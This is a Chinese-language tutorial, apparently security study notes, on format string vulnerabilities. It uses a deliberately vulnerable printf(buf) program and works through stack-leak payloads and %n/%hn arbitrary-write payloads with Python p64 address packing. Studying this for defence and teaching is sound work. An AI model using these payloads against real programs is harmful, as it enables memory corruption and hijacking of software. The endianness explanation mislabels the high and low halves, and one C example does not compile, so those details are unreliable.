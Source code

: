 ```yaml
---
export_on_save:
  phantomjs: "pdf"
---
```


# Format String Attack

printf, fprintf, sprintf, vprintf ... 這類的 function 可以自由的指定參數的數量和類型，在被調用之前都不會知道有多少參數被壓入 stack 當中。所以會要求傳入一個 format string 參數用以指定有多少，怎麽樣的參數被傳入其中，然後它就會忠實的按照函數的調用者傳入的格式一個一個的從對應參數位置取出資料來打印出數據，它會假設你已經將你要印出的東西都放到對的參數上。當這個 format string 是我們可以控制的時候，我們就可以利用這個特性來對**幾乎任意位置做讀寫**。

## Constrains

1. format string 要可以控制
2. 輸入的 payload 長度可能會被限制
3. 輸入的 payload 可能會被過濾，例如限制 printable char

```c
printf(buf);
```

## Format String Symbols
```
%d - 十進制 - 輸出十進制整數
%s - 字符串 - 從內存中讀取字符串
%x - 十六進制 - 輸出十六進制數
%c - 字符 - 輸出字符
%p - 指針 - 指針地址
%n - 將目前為止已經輸出的字符數（int）存進指定位置      <=== 很重要
```

## Function pass arguments order

function 傳遞參數的方式為將參數先放在 regsiter 裡面在 call 到 function 的程式碼位置，然而 regsiter 不夠用的話就會使用 push/pop stack 來存放，其放入順序為 rdi, rsi, rdx, rcx, r8, r9, "STACK"。也就是說第 1 個參數值會先放在 rdi，第 2 個參數值會放在 rsi，... 以此類推，當超過 6 個參數時就會使用 push/pop stack 來丟進去存參數值。

<!-- pagebreak -->

## Read -  information leak!

```c
#include <stdio.h>

int main( void ) {
	char buf[100];
	scanf( "%s", buf );
	printf( buf );

	return 0;
}
```
input:
> ```shell
> AAAA.%x.%x.%x.%x.%x.%x.%x.%x
> ```

output:
> ```shell
> AAAA.ffc7fa18.f7f37300.5657e1c4.0.1.41414141.2e78252e.252e7825
> ```

因為 function 的參數順序和第 1 個參數就是 fmt 本身，所以會從第 2 個參數 rsi 開始 leak。如上所示第 1 個 %p 印出 rsi 的值,第 2 個 %x 印出 rdx 的值, 以此類推... 第 6 個 %x 就會開始 leak stack 上的資訊。例如可以看到 41414141 表示 buf 上 AAAA 的值！

input:
> ```shell
> AAAA.%6$p
> ```

output:
> ```shell
> AAAA.0x41414141
> ```

如果想直接從 stack 開始 leak 可以用 `%k$` 來直接 reference 過去，表示對第 k-1 個參數位置做操作。

<!-- pagebreak -->

## Write - almost write every where

而 %n 這個 Symbols 會將目前為止已經輸出的字符數（int）存進指定位置。在實務上可以利用它把一個 int（4bytes）的值寫到參數指向的位置上，下面為一個簡單的範例:

```c
#include <stdio.h>

int main( void ) {
	int a = 0;
	printf( "123abc%n\n", &a );
	printf( "a = %d\n", a );

	return 0;
}
```
output:
> ```shell
> 123abc
> a = 6
> ```

可以很明顯看到 a 的值被改成 6 這個數字，原因就是在 %n 之前已經 output 6 個 bytes, %n 就會將 6 這個數字寫入 a 所指向的位置。

```c
#include <stdio.h>

int main( void ) {
	int a = 0;
	// printf( "%aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa%n\n", &a );
	printf( "%45c%n\n", '0', &a );
	printf( "a = %d\n", a );

	return 0;
}
```
output:
> ```shell
>                                             0
> a = 45
> ```

如果今天想要寫入的值為 45 甚至更大的數字，可以利用 format string 的 Symbols 對齊寬度來輕鬆輸出 45 個或是更多的 char 數量。 例如想要寫入 "/bin//sh" 在目標位置上，就可以使用 `%7526411283028599343c%n`。

通常想要寫的值都會向上面的 "/bin//sh" 一樣很大，會輸出很久(6685 Pb)，容易 IO 不穩，所以通常會拆成 2 (2 bytes) or 4 (1 bytes) 次寫入。要實現分開寫入的話就會用到下面的 symbols，才能夠 4 bytes 拆成 2 or 1 bytes 寫入。(h = half):
```
%100c%n     -> 寫入 4 bytes \x64\x00\x00\x00
%100c%hn    -> 寫入 2 bytes \x64\x00
%100c%hhn   -> 寫入 1 bytes \x64
```

分開寫的方式為串聯 "%kc%k\$n"，但要注意的是如果今天輸入的是 "%100c%7\$n%300c%8\$n"，第 1 個 %n 會寫入 100，第 2 個 %n 會寫入 400 (100+300)，所以要由小排到大，因為如果你想先寫 400，後面就不可能寫 100 這個數字了！

## Exploit

如果 format string 存在 stack 上（例如 local variable），就可以將 address 放置於 payload，得知 address 位於第 n 個參數，⽤ %n$ 去 refenrence 它，對該 address 進行讀寫。

### %n$p can read
* leak libc, PIE, Heap, Stack: bypass ASLR
### %n$n can write
* almost anywhere!

### Example:
```c
#include <stdio.h>

int a = 0
int main( void ) {
	char buf[100];

	scanf( "%s", buf );
	printf( buf );

	return 0;
}
```

例如想對 a(addr = 0x6012ac)，寫入 value = 0xfaceb00c，buf 又剛好在 stack(local variable) 上，可以先用 '%x' 去 leak buf 的位置

payload:
> ```python
> '%x.' * 20
> ```
output:
> ```shell
> c8fef7e3.c8ff08c0.c8d13154.6.c92184c0.c921da98.0.8376ed7d.bf6f6d58.b01045.
> 0.c41eb1d8.c921d710.0.0.252e7825.2e78252e.78252e78.252e7825.2e78252e.
> ```

1. 由 output 看出 252e7825（'%x.' = 25782e） 在第 16 個，
2. 也可以看出他是 Little-Endian 的。
3. 根據這些 leak 出的資訊可以組出下一個 payload 繼續 leak

payload:
> ```python
> '%20$p'.ljust( 0x20, '\x00' ) + p64( 0x12345678 )
> ```
output:
> ```shell
> 0x12345678
> ```

1. 決定要把 addr 放在哪個位置上，buf 在第 16 個('%16$')，為了留空間放 format string，所以用 ljust 0x20 來確保空間和對齊記憶體位置，預留的空間一定要 8 的倍數（64 bit）。
2. 預留空間後面就可以接 addr，它會在 '%20$' 上。 20 是因為 16 + 0x20/8 = 20。
3. 經過測試，可以成功印出 0x12345678 代表 '%k$' refenrence 成功。

payload:
> ```python
> # '%4207849484c%20$n'.ljust( 0x20, '\x00' ) + p64( addr )
> '%45068c%20$hn%19138c%21$hn'.ljust( 0x20, '\x00' ) \
> 			+ p64( addr ) + p64( addr+2 )
> ```

1. 由於 0xfaceb00c(4207849484) 太大了，要分兩次 2 bytes 寫。
2. 0xface = 64206, 0xb00c = 45068，因為要由小到大所以 0xb00c(45068) 要先寫，後面在寫 19138 就是 0xface(64206)。
3. 然後由於記憶體是 Little-Endian 的，所以低位要放在高位，0xb00c 為高位，所以要先接 p64( addr )，再來才是接 p64( addr+2 )。
4. 這樣就成功讓 [0x6012ac] = 0xfaceb00c

